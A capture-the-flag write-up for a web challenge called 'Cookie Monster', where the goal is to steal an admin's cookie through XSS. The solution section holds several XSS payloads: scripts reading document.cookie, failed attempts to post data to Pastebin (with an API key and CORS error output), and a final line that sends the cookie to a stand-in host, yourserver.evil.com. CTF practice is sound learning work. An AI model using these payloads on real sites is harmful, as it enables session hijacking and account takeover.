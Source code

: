 # Cookie Monster

## Web: 200 points

## Challenge

A skid hacker who's out to get me is working on a forum. Right now the only accessible page is
http://challenges.laptophackingcoffee.org:1337/dev.php.

We've found his admin panel at
http://challenges.laptophackingcoffee.org:1337/dev.php?page=admin
and we know he's using cookies for authentication.

Steal his cookies and access the admin panel to delete the site.

He's on the LHC discord server as @Elite Hacker#2489, He's expecting his buddy Jerry to send him a link with some documentation, maybe you can use that information somehow?

[ [Start](http://challenges.laptophackingcoffee.org:1337/dev.php) ]

Note: The server resets to default every 30 minutes. All progress will be lost

## Solution

what am I suppose to do for the Cookie Monster challenge? I see that it has a XSS vuln and I'm pretty sure I'm suppose to send a cookie logger to the Elite Hacker#2489 and then add his cookie to mine to get the flag-
i'm clearly stupid as you can tell, so i have no idea how to do this or if i'm doing this correct..

```javascript
<script>
var node1 = document.createElement("div");
var textnode = document.createTextNode(document.cookie);
node1.appendChild(textnode);
var node2 = document.createElement("div");
node2.appendChild(textnode);
document.body.appendChild(node1);
document.body.appendChild(node2);
</script>
```

```javascript
<script>
document.body.innerHTML += "hello world";
</script>
```

Pastebin
```javascript
// 1. api_dev_key - which is your unique API Developers Key.
// 2. api_option - set as paste, this will indicate you want to create a new paste.
// 3. api_paste_code - this is the text that will be written inside your paste.
<script>
let data = {api_dev_key: "ef18a18477ac0ba892c5ecef221bc779", api_option: "paste", api_paste_code: "hello world"};

fetch("https://pastebin.com/api/api_post.php", {
  method: "POST", 
  body: JSON.stringify(data)
}).then(res => {
  console.log("Request complete! response:", res);
});
</script>
```

```
Access to fetch at 'https://pastebin.com/api/api_post.php' from origin 'http://challenges.laptophackingcoffee.org:1337' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
```

```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://pastebin.com/api/api_post.php", true);
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send(JSON.stringify({
    api_dev_key: "ef18a18477ac0ba892c5ecef221bc779", 
    api_option: "paste", 
    api_paste_code: "hello world"
}));
</script>
```

```
Access to XMLHttpRequest at 'https://pastebin.com/api/api_post.php' from origin 'http://challenges.laptophackingcoffee.org:1337' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: No 'Access-Control-Allow-Origin' header is present on the requested resource.
```

```
<script>
document.write('<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />')
</script>
```

* https://www.w3schools.com/tags/tag_script.asp
* https://www.w3schools.com/jsref/met_node_appendchild.asp
* https://pastebin.com/api
* https://stackoverflow.com/questions/6396101/pure-javascript-send-post-data-without-a-form
* https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page